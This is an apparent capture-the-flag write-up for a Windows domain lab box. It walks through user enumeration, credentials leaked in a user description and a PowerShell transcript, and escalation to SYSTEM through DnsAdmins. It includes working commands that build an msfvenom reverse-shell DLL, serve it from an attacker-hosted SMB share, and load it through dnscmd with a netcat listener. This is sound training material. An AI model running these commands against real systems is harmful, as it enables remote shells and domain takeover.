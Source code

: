 #rpcclient #querydispinfo #cme #password-spray #powershell-transcripts #user-descriptions #dnsadmins #dll-injection

>[!code]- Find open ports
>
>![Pasted image 20240831103518](/Images/Pasted%20image%2020240831103518.png)
>![Pasted image 20240831103540](/Images/Pasted%20image%2020240831103540.png)
#### Foothold

>[!code]- Enumerate users via **rpcclient** and find that **marko** user has a description which suggests their password is set to **Welcome123!**
>
>![Pasted image 20240831112156](/Images/Pasted%20image%2020240831112156.png)

>[!fail]- marko:Welcome123! doesn't work

>[!code]- Find that **melanie** user has password **Welcome123!**
>
>![Pasted image 20240831113908](/Images/Pasted%20image%2020240831113908.png)
#### Access

>[!success]- Obtain a shell as **melanie** and obtain user.txt
>
>![Pasted image 20240901061220](/Images/Pasted%20image%2020240901061220.png)

>[!code]- Find a PowerShell transcript file containing a password for the user **ryan** (Serv3r4Admin4cc123!)
>Find the powershell transcript file:
>
>![Pasted image 20240901061002](/Images/Pasted%20image%2020240901061002.png)
>
>Find the credentials:
>
>![Pasted image 20240901061415](/Images/Pasted%20image%2020240901061415.png)

>[!success]- Obtain a shell as **ryan**
>
>![Pasted image 20240901061538](/Images/Pasted%20image%2020240901061538.png)
#### Privilege Escalation

>[!code]- Find that ryan is a member of the **DnsAdmins** group
>
>![Pasted image 20240901064548](/Images/Pasted%20image%2020240901064548.png)

>[!code]- Exploit DnsAdmins permissions by executing a malicious DLL upon DNS service startup
>###### Create the DLL
>```powershell
>msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f dll > rev.dll
>```
>![Pasted image 20240901070858](/Images/Pasted%20image%2020240901070858.png)
>
>###### Link the DLL to the DNS service
>```powershell
>dnscmd.exe /config /serverlevelplugindll \\10.10.14.13\share\rev.dll
>```
>![Pasted image 20240902081424](/Images/Pasted%20image%2020240902081424.png)
>###### Make the DLL reachable
>```powershell
># On Kali (in folder containing rev.dll)
>impacket-smbserver share .
>
># Create a listener
>rlwrap nc -lvnp 9001
>```
>![Pasted image 20240902081452](/Images/Pasted%20image%2020240902081452.png)
>###### Stop and start and DNS service
>```powershell
>sc.exe stop dns
>sc.exe start dns
>```
>![Pasted image 20240902081524](/Images/Pasted%20image%2020240902081524.png)

>[!success]- Obtain shell as NT AUTHORITY\SYSTEM and obtain root.txt
>
>![Pasted image 20240902081613](/Images/Pasted%20image%2020240902081613.png)




